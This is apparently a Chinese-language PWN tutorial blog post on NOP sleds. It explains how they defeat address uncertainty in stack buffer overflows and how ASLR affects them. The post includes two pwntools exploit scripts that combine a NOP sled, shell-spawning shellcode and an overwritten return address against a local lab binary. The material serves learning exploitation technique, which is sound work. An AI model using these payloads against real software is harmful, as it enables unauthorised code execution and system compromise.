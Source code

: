 ```yaml
---
title: NOPs
subtitle: 更可靠的 shellcode
date: 2023-08-08T14:29:14+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: true
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），
所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充
若干长度的 NOP 。

NOP，无操作（**N**o **OP**eration）指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候
只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的
控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的
误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有
相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP
本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled
可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化（ASLR）](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址
的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数
的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一
定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

{{<admonition type="info" title="例子">}}

为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，
若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址
即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，
所以为 $255 + 1$）

{{</admonition>}}

不用 NOP Sled，函数返回地址 ---> 攻击代码</br>
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 intel x86 汇编中，NOP 指令是 `\x90` 。

<!--more-->

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个
[问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 Exploit

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

{{<admonition type="warning">}}

确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。

{{</admonition>}}

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240             # 构建 NOPs
payload += asm(shellcraft.sh())     # 构建 shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664 + 120)    # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的
意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的
长度，因为它可能会篡改栈上的其它内容。

{{</admonition>}}

注意：NOP 在某些架构中不是 `\x90` 。如果你需要其他架构的 NOP，可以使用 pwntools：

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 Exploit

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.nop()) * 240  # 构建 NOPs
payload += asm(shellcraft.sh())        # 构建 shellcode
payload = payload.ljust(312, b'A')     # 溢出 Padding
payload += p32(0xffffd664 + 120)       # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```
